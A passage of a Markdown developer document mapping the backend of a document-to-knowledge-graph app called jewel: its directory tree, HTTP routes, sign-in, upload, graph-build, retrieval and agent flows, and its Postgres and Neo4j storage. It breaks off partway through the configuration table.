


# Backend structure and core flows

A code map of `backend/`: where things live, every HTTP route, how the main processes
run through the code, what is stored where, which settings are read, and which outside
services are called. It was written from the code on `main` at commit `a20db8c`. Where a
docstring or an older doc disagrees with the code, this page follows the code.

For the big picture (components, deployment, production constraints) read these first.
This page does not repeat them:

- [README.md](../README.md): setup, local development, configuration summary, testing.
- [docs/system-design.md](system-design.md): components, data model, sequence diagrams
  for sign-in, upload, build, ask and sign-out, and production constraints.
- [docs/deployment-strategy.md](deployment-strategy.md): hosting and rollout.

`docs/architecture.md`, `docs/problem-statement.md`, `backend/README.md` and several
module docstrings describe the earlier scaffold and are out of date (see
[section 8](#8-where-code-comments-and-older-docs-disagree-with-the-code)).

In this page, `jewel/` means `backend/src/jewel/`.

Contents

1. [Directory tree](#1-directory-tree)
2. [API reference](#2-api-reference)
3. [Core processes](#3-core-processes)
4. [Data stores](#4-data-stores)
5. [Configuration](#5-configuration)
6. [External calls](#6-external-calls)
7. [Known gaps](#7-known-gaps)
8. [Where code comments and older docs disagree with the code](#8-where-code-comments-and-older-docs-disagree-with-the-code)

## 1. Directory tree

Caches, virtual environments and `__init__.py` files that hold only a docstring are
left out.

```text
backend/
├── Dockerfile               Dev image: python:3.12-slim + uv, runs uvicorn jewel.api.app:app on :8000
├── pyproject.toml           Package metadata, runtime deps, ruff and pytest settings
├── uv.lock                  Locked dependency versions
├── README.md                Scaffold-era readme (stale, see section 8)
├── src/jewel/
│   ├── __init__.py          Package docstring and __version__ ("0.0.2")
│   ├── config.py            Settings (pydantic-settings): env vars and .env; get_settings()
│   ├── api/
│   │   ├── app.py           create_app(): lifespan (apply schema, open Neo4j driver), CORS, routers; module-level `app`
│   │   └── routes/
│   │       ├── health.py    GET /health
│   │       ├── auth.py      GET /auth/google, GET /auth/google/callback, POST /auth/logout, GET /me
│   │       ├── documents.py Upload, list, get, delete, build (background thread), stop; build lock and cancel map
│   │       ├── graph.py     GET /graph: the user's documents, entities and triples
│   │       ├── ask.py       POST /ask: loads the user's graph and runs the agent
│   │       └── keys.py      Empty router for /me/api-key; not mounted, no endpoints
│   ├── auth/
│   │   ├── google.py        OAuth URL + state/nonce rows, code exchange, ID-token verification (PyJWT + JWKS)
│   │   ├── sessions.py      Session token, HMAC session id, session rows, cookie set/clear
│   │   ├── users.py         upsert_user() keyed by Google `sub`
│   │   ├── dependencies.py  current_user() dependency and the CurrentUser / SessionCookie types
│   │   └── api_keys.py      Docstring-only stub (per-user key storage was never built)
│   ├── db/
│   │   ├── postgres.py      connect() (autocommit, dict rows), apply_schema(), get_db() dependency; `python -m` applies schema
│   │   └── schema.sql       All Postgres tables (idempotent CREATE / ALTER ... IF NOT EXISTS)
│   ├── documents/
│   │   ├── models.py        Size/page limits, accepted types, DocumentStatus, DocumentSummary/DocumentDetail
│   │   ├── repository.py    SQL for `documents` rows (every read and delete filtered by user_id)
│   │   ├── service.py       Upload flow: validate, save bytes, insert row, parse, mark parsed/failed
│   │   └── storage.py       FileStore: opaque 32-hex file names under JEWEL_UPLOAD_DIR
│   ├── parsing/
│   │   ├── __init__.py      parser_for(extension) registry
│   │   ├── base.py          DocumentParser protocol, ParseError
│   │   ├── pdf.py           pypdf text layer, pdf_page_count() (no OCR)
│   │   ├── text.py          .txt / .md as UTF-8 (BOM dropped)
│   │   └── docx.py          python-docx paragraphs, then table rows
│   ├── ingestion/
│   │   ├── live.py          build_parsed_text(): passage split, parallel extraction, cache, progress, cancel
│   │   ├── pipeline.py      build_document(): embed text/entities/facts, call store.write_document()
│   │   ├── chunking.py      chunk_text(): fixed-size character windows with overlap
│   │   └── extraction_cache.py  extraction_key() (SHA-256), PostgresExtractionCache, MemoryExtractionCache (tests)
│   ├── kg/
│   │   ├── extraction.py    parse_extraction(), _repair_triple(), merge_extractions(): model JSON -> Extraction
│   │   ├── neo4j_store.py   Neo4jGraphStore: Cypher writes, delete, load_user() into memory
│   │   ├── memory_store.py  MemoryGraphStore: in-memory graph used by retrieval and tests; _quote_for()
│   │   ├── records.py       Dataclasses (GraphDocument, GraphEntity, GraphMention, GraphTriple, UserSubgraph), name_key()
│   │   ├── schema.py        Enums: node labels, relationship types, entity types
│   │   └── temporal.py      is_valid_at() validity predicate
│   ├── retrieval/
│   │   ├── hippo/pipeline.py     retrieve(): fact ranking, entity seeds, PPR, document ranking, dense fallback
│   │   ├── hippo/ppr.py          walk_graph() (networkx.Graph), personalized_pagerank() (hand-written power iteration)
│   │   ├── hippo/linking.py      cosine(), top_matches()
│   │   ├── hippo/recognition.py  filter_triples(): LLM triple filter (not reached from /ask, see 3.5)
│   │   └── baseline_rag.py       rank_chunks(): cosine chunk ranking; used only by tests
│   ├── agents/
│   │   ├── graph.py         run_agent() loop (MAX_TOOL_CALLS = 4), _call_tool()
│   │   ├── kimi_decider.py  KimiDecider: system prompt, one chat call per turn, _parse() of JSON
│   │   ├── tools.py         search_graph(), read_document(), ToolError
│   │   └── state.py         AgentResult, ToolTraceEntry
│   └── llm/
│       ├── base.py          ChatModel / EmbeddingModel protocols
│       ├── choices.py       Request-body model choices; make_chat(), make_embedder(), make_agent_chat(), require_same_model()
│       ├── ollama.py        OllamaChat (local extraction), extraction prompt and options, extract_document()
│       ├── openai_chat.py   OpenAICompatibleChat: /chat/completions with retries, Kimi-specific body tweaks
│       ├── embedders.py     LocalEmbedder (fastembed), OpenAIEmbedder (/embeddings), model lists
│       ├── bge.py           BgeEmbedder: older single-model fastembed wrapper; not used by any route
│       ├── kimi.py          Env-driven Kimi helper; only kimi_is_configured() is used, by a test
│       └── hashing.py       HashingEmbedder: deterministic test embedder
└── tests/
    ├── conftest.py          Test DB from JEWEL_TEST_DATABASE_URL (skip locally, fail in CI); truncates tables
    ├── fixtures.py          Generated PDFs, .docx files and signed test ID tokens (no network)
    ├── test_auth.py, test_google_tokens.py      Sign-in, sessions, ID-token checks (Google mocked)
    ├── test_documents_api.py, test_parsing.py   Upload/list/get/delete and parsers
    ├── test_graph_build.py, test_extraction_cache.py  Extraction, memory store, retrieval, agent, cache
    └── test_health.py, test_imports.py, test_scaffold.py  Smoke and import checks
```

Related files outside `backend/`: `infra/docker-compose.yml` (Neo4j, Postgres, backend,
frontend for local use), `Makefile` (`dev-backend`, `test`, `lint`),
`.github/workflows/ci.yml` (ruff and pytest against a Postgres service).

## 2. API reference

There are 13 application routes (checked by listing `app.openapi()`). FastAPI also
serves its default `/docs`, `/redoc` and `/openapi.json` without auth. "Session" means
the route depends on `auth/dependencies.py:current_user`, which reads the
`jewel_session` cookie and returns 401 if it is missing or unknown. The owner of every
document is always the session user, never a request field.

| Method | Path | Handler | Auth | What it does |
|---|---|---|---|---|
| GET | `/health` | `api/routes/health.py:health` | No | Returns `{"status": "ok"}`. Does not touch any store. |
| GET | `/auth/google` | `api/routes/auth.py:start_google_sign_in` | No | 503 if `GOOGLE_CLIENT_ID` or `GOOGLE_REDIRECT_URI` is empty. Otherwise stores state and nonce and returns a 302 to Google. Needs Postgres. |
| GET | `/auth/google/callback` | `api/routes/auth.py:finish_google_sign_in` | No | Query `code`, `state`, `error`. On success: upsert the user, create a session, set the cookie, 302 to `JEWEL_FRONTEND_URL`. On failure: 302 to `JEWEL_FRONTEND_URL?signin_error=google_denied`, `missing_code`, `invalid_state` or `token_invalid`, with no cookie. 503 if `SESSION_SECRET` is empty. |
| POST | `/auth/logout` | `api/routes/auth.py:logout` | Cookie optional | Deletes the session row if a cookie is present and `SESSION_SECRET` is set, then clears the cookie. Returns 204. |
| GET | `/me` | `api/routes/auth.py:me` | Session | Returns `{email, name}`. |
| POST | `/documents` | `api/routes/documents.py:upload` | Session | Multipart field `file`. 413 if `Content-Length` is over 21 MB or the file is over 20 MB, 415 for an extension other than `.pdf .txt .md .docx`, 422 for a PDF over 50 pages. Returns 201 with a `DocumentSummary` whose status is `parsed` or `failed` (with `error`). |
| GET | `/documents` | `api/routes/documents.py:list_library` | Session | The caller's documents, newest first, as `DocumentSummary[]`. |
| GET | `/documents/{document_id}` | `api/routes/documents.py:get_one` | Session | `DocumentDetail` (summary plus `media_type`, `document_date`, `extracted_text`). 404 if the id is not a UUID or not the caller's. |
| DELETE | `/documents/{document_id}` | `api/routes/documents.py:delete` | Session | Deletes the Postgres row and the file, then the Neo4j data if a driver exists (see 3.7). Returns 204, or 404. |
| POST | `/documents/{document_id}/build` | `api/routes/documents.py:build` | Session | Optional JSON `BuildBody`: top-level embedding fields `provider` (`local` or `api`), `model`, `base_url`, `api_key`, plus `extraction: {provider, model, base_url, api_key}`. 404 if not the caller's, 409 if there is no extracted text or the document is already `extracting`, 503 without Neo4j, 400 for bad model choices. Marks `extracting`, starts a thread and returns the `DocumentSummary` at once. |
| POST | `/documents/{document_id}/stop` | `api/routes/documents.py:stop_build` | Session | Sets the cancel flag and calls `abort()` on the extraction client if it has one. If the row is `extracting`, marks it `failed` with error `stopped`. Returns the `DocumentSummary`. |
| GET | `/graph` | `api/routes/graph.py:read_graph` | Session | 503 without Neo4j. Returns `{documents: [{id, filename, embedding_model}], entities: [{id, name, type}], triples: [{id, source_id, target_id, predicate, quote, document_id}]}`. Mentions are not returned. |
| POST | `/ask` | `api/routes/ask.py:ask` | Session | JSON `AskBody`: `question` (1 to 2000 characters), top-level embedding fields as for build, and `agent: {model, base_url, api_key}` (defaults `kimi-k2.6` at `https://api.moonshot.ai/v1`). 503 without Neo4j, 409 if the user has no built documents or the embedding model differs from the one the graph was built with, 400 if no agent key is available. Returns `{answer, tool_calls_used, trace: [{name, summary}], highlight_entity_ids, highlight_relationship_ids}`. |

Shared response shapes (`jewel/documents/models.py`):

- `DocumentSummary`: `id`, `filename`, `uploaded_at`, `status`, `error`, `build_done`,
  `build_total`.
- `DocumentDetail`: `DocumentSummary` plus `media_type`, `document_date`,
  `extracted_text`.

Model-choice defaults (`jewel/llm/choices.py`):

| Body model | Fields and defaults |
|---|---|
| `EmbeddingChoice` | `provider="local"`, `model="BAAI/bge-base-en-v1.5"`, `base_url="https://api.openai.com/v1"`, `api_key=""` |
| `ExtractionChoice` | `provider="local"`, `model="qwen2.5:7b-instruct"`, `base_url="https://api.openai.com/v1"`, `api_key=""` |
| `AgentChoice` | `model="kimi-k2.6"`, `base_url="https://api.moonshot.ai/v1"`, `api_key=""` (empty means use `KIMI_API_KEY`) |

Local embedding models accepted: `BAAI/bge-base-en-v1.5`, `BAAI/bge-large-en-v1.5`,
`nomic-ai/nomic-embed-text-v1.5`, `intfloat/multilingual-e5-large`. The only local
extraction model accepted is `qwen2.5:7b-instruct`. With `provider="api"` any model name
and base URL are accepted, and `api_key` is required.

Cross-cutting behaviour:

- `api/app.py:create_app` adds CORS only when `JEWEL_FRONTEND_URL` is set: that one
  origin, credentials allowed, methods GET/POST/DELETE, header `Content-Type`.
- `db/postgres.py:get_db` opens one autocommit connection per request and returns 503 if
  `DATABASE_URL` is empty. Routes that take `DbConn`, including every session route, need
  Postgres.
- The Neo4j driver is created once in the lifespan (`api/app.py:_neo4j_driver`) and kept
  on `app.state.neo4j`. It is `None` if `NEO4J_PASSWORD` is empty or the first
  connectivity check fails, and it is never retried.

## 3. Core processes

### 3.1 Startup

1. `api/app.py:create_app` runs `config.py:get_settings`, which builds a fresh
   `Settings()` and does not cache it.
2. In `lifespan`: if `DATABASE_URL` is set, `db/postgres.py:connect` then
   `db/postgres.py:apply_schema` runs all of `schema.sql`. If Postgres is unreachable,
   the exception is not caught, so the app fails to start.
3. `api/app.py:_neo4j_driver` calls `GraphDatabase.driver` and `verify_connectivity()`.
   On failure it logs and stores `None`.
4. Routers are included in this order: health, auth, documents, graph, ask.
   `keys.router` is not included.

### 3.2 Sign-in and session

1. `GET /auth/google`: `api/routes/auth.py:start_google_sign_in` calls
   `auth/google.py:create_authorization_url`. That deletes expired `oauth_states`, inserts
   a random `state` and `nonce` valid for 10 minutes, and builds the Google URL with scope
   `openid email profile` and `prompt=select_account`.
2. `GET /auth/google/callback`: `api/routes/auth.py:finish_google_sign_in`
   1. `auth/google.py:consume_state` runs `DELETE ... RETURNING nonce` (single use) and
      rejects an expired state.
   2. `auth/google.py:exchange_code` POSTs the code to `https://oauth2.googleapis.com/token`
      (urllib, 10 s timeout) and returns the `id_token`.
   3. `auth/google.py:verify_id_token` calls `fetch_signing_key` (a module-level
      `PyJWKClient` with cached keys), then `jwt.decode` with RS256, `aud` set to the client
      id and 30 s leeway, requiring `iss aud exp sub`. It then checks `iss` against the two
      Google issuers, the `nonce`, and that there is an `email`. `name` falls back to the
      email.
   4. `auth/users.py:upsert_user` does `INSERT ... ON CONFLICT (google_sub) DO UPDATE`
      for email and name.
   5. `auth/sessions.py:create_session` makes a 32-byte URL-safe token and stores
      `HMAC-SHA256(SESSION_SECRET, token)` as `sessions.id`, expiring in 14 days.
   6. `auth/sessions.py:set_session_cookie` sets `jewel_session` with `HttpOnly`,
      `SameSite=Lax`, `Path=/`, `Max-Age` of 14 days, and `Secure` unless
      `JEWEL_ENV=local`.
3. Each session request: `auth/dependencies.py:current_user` calls
   `auth/sessions.py:get_session_user`, which joins `sessions` to `users` on the HMAC id
   where `expires_at > now()`. The result is `{id, email, name}`. If `SESSION_SECRET` is
   empty, `_session_id` raises `SessionConfigError`, which this path does not catch, so
   the request fails with a 500 rather than a 401.
4. `POST /auth/logout`: `api/routes/auth.py:logout` calls
   `auth/sessions.py:delete_session` and `clear_session_cookie`. Other sessions of the same
   user stay valid, and expired session rows are never purged.

### 3.3 Upload and parse

This runs synchronously inside the request.

1. `api/routes/documents.py:upload` rejects a declared `Content-Length` above
   `MAX_UPLOAD_BYTES` + 1 MB, then reads at most `MAX_UPLOAD_BYTES + 1` bytes.
2. `documents/service.py:upload_document`
   1. `clean_filename` keeps only the base name (at most 255 characters, default
      `untitled`). It is used for display only.
   2. `check_upload` checks the extension (415), the size (413), and for PDFs
      `parsing/pdf.py:pdf_page_count` against 50 pages (422). An unreadable PDF is not
      rejected here; it fails at parse time.
   3. `documents/storage.py:FileStore.save` writes the bytes to
      `JEWEL_UPLOAD_DIR/<uuid4 hex>`.
   4. `documents/repository.py:insert_document` inserts the row with status `stored`. If
      the insert fails, the file is deleted.
   5. `repository.set_status(PARSING)`, then `parsing/__init__.py:parser_for(ext).extract_text`.
   6. A `ParseError` leads to `mark_failed(str(exc))`. Any other exception leads to
      `mark_failed("Could not parse this file")`.
   7. NUL characters are stripped. Empty text leads to
      `mark_failed("No text could be extracted")`, otherwise `mark_parsed` stores
      `extracted_text`.
3. The route re-reads the row with `repository.get_document` and returns a
   `DocumentSummary`.

After this point nothing reads the file back. Builds use `documents.extracted_text`.

### 3.4 Graph build



Call chain:

1. `api/routes/documents.py:build`
   1. `_parse_id` (a bad UUID gives 404), then `repository.get_document` (404),
      checks that `extracted_text` is not blank (409), that `app.state.neo4j` is set
      (503), and that the status is not `extracting` (409).
   2. `llm/choices.py:make_embedder` and `llm/choices.py:make_chat` build the clients.
      Validation errors are 400s at this point, before any state changes.
   3. `repository.mark_extracting` sets status `extracting`, clears `error`, and resets
      progress to 0/0.
   4. It registers `(cancel Event, chat)` in the module-level `_CANCELS` dict, starts a
      daemon `threading.Thread` targeting `_build_in_background`, and returns the row.
2. `api/routes/documents.py:_build_in_background` opens its own Neo4j driver and
   Postgres connection, then takes the process-wide `_BUILD_LOCK` (one build at a time
   across all users), and calls `ingestion/live.py:build_parsed_text`.
3. `ingestion/live.py:build_parsed_text`
   1. Passage chunking: `ingestion/chunking.py:chunk_text(text, size=3500, overlap=200)`
      makes fixed character windows. It does not split on sentences.
   2. `on_progress(0, total)`, then `_extract_chunks` runs a `ThreadPoolExecutor` with 1
      worker when the client is `OllamaChat` and 4 otherwise.
   3. For each passage, `run_one` checks the cancel flag, calls `_extract_passage`, then
      `kg/extraction.py:parse_extraction(raw, chunk.text)`.
   4. Cache: `_extract_passage` computes `ingestion/extraction_cache.py:extraction_key(model, text)`,
      a SHA-256 over length-prefixed `model`, `_EXTRACT_SYSTEM`, `EXTRACT_OPTIONS` and the
      passage text. It calls `PostgresExtractionCache.get`, and on a miss
      `llm/ollama.py:extract_document(chat, text)` then `put` (`ON CONFLICT DO NOTHING`).
      The raw model text is cached, not the parsed result. The key does not include the
      provider or base URL, so the same model name on two hosts shares entries.
      `EXTRACT_OPTIONS` is part of the key even for API models, which never receive it.
   5. A passage that raises is skipped, and the build continues. Only if every passage
      fails is the last error re-raised.
   6. Progress: after each passage `on_progress(done, total)` goes to `_report_progress`,
      which opens a new Postgres connection and runs `repository.set_build_progress`. That
      update only applies while the status is still `extracting`.
   7. `kg/extraction.py:merge_extractions` dedupes entities by exact name and triples by
      `(subject, predicate, object, quote)`. No triples at all raises `ExtractionError`.
4. Extraction and triple repair (`kg/extraction.py`)
   1. `_load_json` strips a code fence and parses JSON. If that fails it tries the
      outermost `{...}`. A bare list is treated as `{"triples": [...]}`.
   2. `_entity_items` accepts strings or dicts with `name`, `entity` or `label`. Unknown
      types become `other`, and a missing type becomes `concept`.
   3. `_triple_items` reads `triples` or `relationships` and calls `_repair_triple`, which
      maps `head/source` to subject, `tail/target` to object and `relation/relationship`
      to predicate (default `related to`). It drops the triple if a non-empty quote is not
      an exact substring of the passage. If the quote is empty, it takes
      `_sentence_containing` the subject and object.
   4. `parse_extraction` validates with pydantic, checks `triple.quote in source_text`
      again, adds any subject or object that is not a known entity as a `concept` entity,
      and keeps entities that appear in a triple or in the passage text.
5. Embedding: `ingestion/pipeline.py:build_document` makes one `embedder.embed` call over
   `[full document text, *entity names, *"subject predicate object" facts]`. The full
   text is passed as a single input, and the code does not truncate it. What happens to
   long input then depends on the embedder (fastembed or the remote API), which this
   code does not control.
6. Neo4j writes: `kg/neo4j_store.py:Neo4jGraphStore.write_document`, in one session
   where each `session.run` is its own auto-commit transaction:
   1. `_DELETE_DOCUMENT_EDGES` (this document's `MENTIONS`) and `_DELETE_DOCUMENT_TRIPLES`
      (this document's `RELATED_TO`).
   2. `_UPSERT_DOCUMENT` does `MERGE (d:Document {user_id, id})` and sets filename,
      raw text, embedding, date and embedding model.
   3. For each entity: `_UPSERT_ENTITY` (`MERGE` on `{user_id, name_key}`; `id`, `name` and
      `type` only on create; the embedding is always overwritten), then `_WRITE_MENTION`
      with the quote from `kg/memory_store.py:_quote_for`.
   4. For each triple: `_WRITE_TRIPLE` creates a `RELATED_TO` edge with `predicate`,
      `quote`, `embedding`, `document_id`, `valid_at`.
   5. `_DROP_UNMENTIONED` deletes this user's entities that no longer have any `MENTIONS`.
7. Finish (`_build_in_background`): if the cancel flag is not set,
   `repository.mark_ready`. `BuildCancelled` leads to `mark_build_failed("stopped")`, and
   any other exception to `mark_build_failed(str(exc)[:500])`. The `finally` block pops
   `_CANCELS[id]` and closes the driver.

Stop: `api/routes/documents.py:stop_build` looks up `_CANCELS[id]`, calls
`cancel.set()` and then `chat.abort()` if the client has one. Only `OllamaChat` does: it
closes the open HTTP connection and POSTs `keep_alive: 0` to `/api/generate` to unload
the model. If the row is `extracting`, the route marks it `failed` with error `stopped`.
The worker checks the flag before each passage and after each finished one. Pending
futures are cancelled, but the executor still waits for passages already running, and
the thread holds `_BUILD_LOCK` until they finish.

### 3.5 Retrieval (temporal PPR)

`retrieval/hippo/pipeline.py:retrieve(store, embedder, user_id, query, as_of, chat=None)`
runs on the in-memory `MemoryGraphStore` returned by `Neo4jGraphStore.load_user`:

1. `store.subgraph(user_id)`, then the query vector from `embed_query` if the embedder
   has it (this adds the query prefix for Nomic and E5), otherwise from `embed`.
2. Temporal filter: `kg/temporal.py:is_valid_at(valid_at, invalid_at, as_of)` is applied
   to triples and mentions. Today every `valid_at` is null (see 4.1: `document_date` is
   never set) and `invalid_at` is never written, so nothing is filtered out.
3. `retrieval/hippo/linking.py:top_matches` picks the top 8 triples by cosine (dot
   product of normalized vectors) with a score above 0.
4. If `chat` is given, `retrieval/hippo/recognition.py:filter_triples`. The only
   production caller, `agents/tools.py:search_graph` from `agents/graph.py:_call_tool`,
   does not pass `chat`, so this step never runs in `/ask`.
5. If no triples remain, `_dense_fallback` ranks documents by cosine to their embedding.
6. Seeds: for each chosen triple, `max(cos, 0)` divided by the number of documents that
   mention the entity, averaged per source and target entity.
7. `retrieval/hippo/ppr.py:walk_graph` builds an undirected, weighted `networkx.Graph`
   over all entities and documents, with edges from valid triples and mentions (weights
   summed when an edge repeats). Document nodes get a personalization of
   `PASSAGE_PRIOR (0.05) * max(cos(query, doc), 0)`.
8. `retrieval/hippo/ppr.py:personalized_pagerank` runs 40 power iterations with damping
   0.5, teleporting to the normalized personalization (uniform if it is all zero). It is
   written by hand and does not call `networkx.pagerank`.
9. `_rank_documents` returns the documents with a score above 0, highest first. The
   result is `RetrievalResult(documents, triples=chosen, entity_ids=seed ids,
   relationship_ids=chosen ids)`.

### 3.6 `/ask` agent loop



1. `api/routes/ask.py:ask`: 503 without Neo4j; `Neo4jGraphStore.load_user(user_id)` reads
   all of the user's documents (with full text and embeddings), entities, mentions and
   triples into a `MemoryGraphStore`; 409 if there are no documents;
   `llm/choices.py:require_same_model` (409 if the graph mixes embedding models or the
   request model differs from the stored one); `make_embedder`; `make_agent_chat`.
2. `agents/graph.py:run_agent` with `as_of=datetime.now(UTC)`:
   1. While `tool_calls_used < MAX_TOOL_CALLS` (4), it calls the decider with
      `(question, observations, False)`.
   2. `agents/kimi_decider.py:KimiDecider.__call__` sends one `chat.complete(_SYSTEM, json({question, observations}))`.
      The user id is not sent. `_parse` strips a fence and parses JSON: `{"answer": ...}`
      becomes an answer, and `{"tool": {"name": "search_graph" | "read_document", "arguments": {...}}}`
      becomes a tool call. Text that is not JSON, or JSON of any other shape, is used as
      the answer.
   3. `_call_tool`
      - `search_graph`: the query defaults to the question. It adds the returned document
        ids to `allowed`, sets the highlight ids, and appends an observation built from up
        to 8 `filename id=...` entries and 8 quotes.
      - `read_document`: `agents/tools.py:read_document` raises `ToolError` unless the id is
        in `allowed` and the document is in the user's store. Only the first 240 characters
        of the text go into the observation.
      - Any other name gives the observation `unknown tool`.
   4. After 4 tool calls, one more decider call with `force_answer=True` (the system
      prompt adds "You must answer now"). In total that is at most 5 chat calls.
3. The response includes `trace` entries of `{name, summary}` only. The tool arguments
   and `returned_document_ids` are not returned.

### 3.7 Delete

`api/routes/documents.py:delete`:

1. `_parse_id(document_id)` (404 if the id is not a UUID), then
   `repository.delete_document` does `DELETE ... WHERE id AND user_id RETURNING stored_path`
   (404 if nothing was deleted).
2. `FileStore(settings.upload_dir).delete(stored_path)` with `missing_ok=True`.
3. If `app.state.neo4j` is not `None`, `Neo4jGraphStore.delete_document(user_id, document_id)`
   runs `_DELETE_DOCUMENT_TRIPLES`, `_DELETE_DOCUMENT_NODE` (`DETACH DELETE`, which
   removes its `MENTIONS`) and `_DROP_UNMENTIONED`. It is passed the raw path string, not
   the parsed UUID (see 7.5).
4. Returns 204. The route does not check for or cancel a running build, and it does not
   touch `extraction_cache`.

## 4. Data stores

### 4.1 Postgres (`jewel/db/schema.sql`)

| Table | Columns | Notes |
|---|---|---|
| `users` | `id uuid PK`, `google_sub text UNIQUE NOT NULL`, `email text NOT NULL`, `name text NOT NULL DEFAULT ''`, `created_at timestamptz DEFAULT now()` | Written by `auth/users.py:upsert_user`. |
| `sessions` | `id text PK` (HMAC of the cookie token), `user_id uuid FK users ON DELETE CASCADE`, `expires_at timestamptz` | Index `sessions_user_id_idx`. Expired rows are not purged. |
| `oauth_states` | `state text PK`, `nonce text`, `expires_at timestamptz` | Expired rows are deleted each time a new sign-in starts. |
| `documents` | `id uuid PK`, `user_id uuid FK users ON DELETE CASCADE`, `filename`, `media_type`, `stored_path` (32-hex name), `uploaded_at`, `document_date date`, `extracted_text`, `status` (CHECK: `stored`, `parsing`, `parsed`, `failed`, `extracting`, `ready`), `error`, `build_done int`, `build_total int` | Index `documents_user_uploaded_idx (user_id, uploaded_at DESC)`. `build_done` and `build_total` are also added by `ALTER TABLE ... ADD COLUMN IF NOT EXISTS`. No code writes `document_date`, so it is always null. |
| `extraction_cache` | `cache_key text PK`, `model text`, `response text`, `created_at timestamptz` | Shared across users, with no user or document column. Never deleted. |

Connections come from `db/postgres.py:connect`: psycopg 3, `autocommit=True`,
`row_factory=dict_row`. There is no ORM, no pool and no transactions.

### 4.2 Neo4j (`jewel/kg/neo4j_store.py`)

Every node and relationship has `user_id`, and every Cypher statement takes it as a
parameter. The code creates no indexes or constraints.

| Element | Properties written | Match key |
|---|---|---|
| `(:Document)` | `user_id`, `id` (Postgres `documents.id` as a string), `filename`, `raw_text`, `embedding`, `document_date` (ISO string or null), `embedding_model` | `{user_id, id}` |
| `(:Entity)` | `user_id`, `name_key` (case-folded, whitespace-collapsed name), `id` (uuid4), `name`, `type` (`person`, `organization`, `place`, `concept`, `other`), `embedding` | `{user_id, name_key}` |
| `(:Entity)-[:MENTIONS]->(:Document)` | `user_id`, `id`, `document_id`, `quote`, `valid_at` | created per build |
| `(:Entity)-[:RELATED_TO]->(:Entity)` | `user_id`, `id`, `document_id`, `predicate`, `quote`, `embedding`, `valid_at` | created per build |

`kg/schema.py` and `kg/records.py` also mention offsets, `invalid_at` and a document
status. None of these are written to Neo4j. `GraphMention.invalid_at` and
`GraphTriple.invalid_at` exist only in memory and are always `None` after
`load_user`.

### 4.3 On disk

| Path | Written by | Contents |
|---|---|---|
| `JEWEL_UPLOAD_DIR/<32 hex>` (default `./data/uploads`) | `documents/storage.py:FileStore.save` | The original upload bytes, with no extension. They are deleted with the document and never read after parsing. |
| fastembed model cache | the `fastembed` library, first time `LocalEmbedder` is used | Embedding weights. The location is chosen by fastembed; jewel does not set it. |
| `.env` in the process working directory | read by `pydantic-settings` | Settings only (see section 5). |

In-process memory (lost on restart): `app.state.neo4j`, `_BUILD_LOCK`, `_CANCELS`, and
`_CANCELS_LOCK` in `api/routes/documents.py`, plus `_jwks_client` in `auth/google.py`.

## 5. Configuration

`jewel/config.py:Settings` reads the process environment and a `.env` file in the working
directory (`env_file=".env"`, `extra="ignore"`). A few modules read `os.environ`
directly. Those reads do not see `.env`.

| Variable | Read in | Default | What it does |
|---|---|---|---|
| `JEWEL_ENV` | `config.py` (`env`), used in `auth/sessions.py` | `local` | Any value other than `local` adds `Secure` to the session cookie. |
| `GOOGLE_CLIENT_ID` | `config.py`, used in `auth/google.py`, `routes/auth.py` | `""` | OAuth client id, and the ID-token audience. |
| `GOOGLE_CLIENT_SECRET` | `config.py`, used in `auth/google.py:exchange_code` | `""` | Code exchange. |
| `GOOGLE_REDIRECT_URI` | `config.py`, used in `auth/google.py` | `""` | Redirect URI sent to Google. |
